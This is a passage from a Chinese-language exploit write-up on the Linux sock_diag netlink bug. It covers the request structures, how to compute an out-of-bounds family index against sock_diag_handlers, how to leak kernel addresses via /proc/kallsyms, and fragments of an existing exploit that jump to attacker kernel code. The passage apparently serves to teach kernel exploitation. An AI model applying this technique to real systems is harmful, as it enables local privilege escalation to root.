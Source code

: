 ```
struct
`{`
    struct nlmsghdr nlh;
    struct unix_diag_req r;
 `}` req;
```

查阅资料时，发现请求头必须是**nlmsghdr**结构体，但数据区也可以是**inet_diag_req**或者**inet_diag_req_v2**结构体。

```
struct unix_diag_req `{`
    __u8    sdiag_family;
    __u8    sdiag_protocol;
    __u16    pad;
    __u32    udiag_states;
    __u32    udiag_ino;
    __u32    udiag_show;
    __u32    udiag_cookie[2];
`}`;

struct inet_diag_req `{`
    __u8    idiag_family;        /* Family of addresses. */
    __u8    idiag_src_len;
    __u8    idiag_dst_len;
    __u8    idiag_ext;        /* Query extended information */

    struct inet_diag_sockid id;

    __u32    idiag_states;        /* States to dump */
    __u32    idiag_dbs;        /* Tables to dump (NI) */
`}`;
struct inet_diag_sockid `{`
    __be16    idiag_sport;
    __be16    idiag_dport;
    __be32    idiag_src[4];
    __be32    idiag_dst[4];
    __u32    idiag_if;
    __u32    idiag_cookie[2];
`}`;
```

> 最主要的还是**unix_diag_req**结构最简单，利用起来最方便。

**Secondly**，需要计算出family的取值到底要多少，不能大也不能小。

> <p>在32位里，family = (nl_table – sock_diag_handlers)/4<br>
显然，在64位里，family = (nl_table – sock_diag_handlers)/8</p>

现在的问题是如何获取这两个结构体的具体地址，如果内核设置**kernel.kptr_restrict=0**，那么我们可以直接从**/proc/kallsyms**里获取，如果禁止，那连**/boot/linux-image-xxx-generic**里也无法获取。

**Thirdly**,因为32位的exp可以搜到，链接放在文后，所以我就选取一些修改点来分析。

```
[...]
int jump_payload_not_used(void *skb, void *nlh)
`{`
  asm volatile (
    "mov $kernel_code, %eaxn"
    "call *%eaxn"
  );
`}`

[...]
    //填充数据包，就是为了最终能够执行到__sock_diag_rcv_msg中去
  memset(&amp;req, 0, sizeof(req));
  req.nlh.nlmsg_len = sizeof(req);
```